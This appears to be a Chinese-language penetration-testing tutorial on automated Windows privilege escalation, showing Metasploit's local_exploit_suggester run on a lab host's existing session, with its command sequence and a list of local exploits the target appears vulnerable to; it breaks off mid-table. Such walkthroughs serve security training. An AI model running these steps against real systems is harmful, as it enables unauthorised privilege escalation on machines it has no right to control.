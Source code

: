 <img src="https://s2.loli.net/2023/03/16/DK1LdQAzpiV2U3S.png" alt="image-20230316101445184" style="zoom: 67%;" />

### 全自动化提权操作

#### 提权模块

```
use post/multi/recon/local_exploit_suggester 全自动：快速识别系统中可能利用的漏洞
```

#### 操作设置

这里需要注意，如果出现的漏洞比较少，可以将参数SHOWDESCRIPTION，设置为true。

```
msf6 > use post/multi/recon/local_exploit_suggester  ##设置全自动化提权
msf6 post(multi/recon/local_exploit_suggester) > options   ##设置参数

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


View the full module info with the info, or info -d command.

msf6 post(multi/recon/local_exploit_suggester) > set session 2   ##设置会话编号
session => 2
msf6 post(multi/recon/local_exploit_suggester) > run  ##开始检测

```

#### 提权结果

在结果中，yes是可能存在的漏洞利用，no是没有的意思，这里我直接使用代码信息来表示吧，截图太大了。

```
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 192.168.10.40 - Collecting local exploits for x86/windows...
[*] 192.168.10.40 - 174 exploit checks are being tried...
[+] 192.168.10.40 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 192.168.10.40 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[+] 192.168.10.40 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 192.168.10.40 - Valid modules for session 2:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
```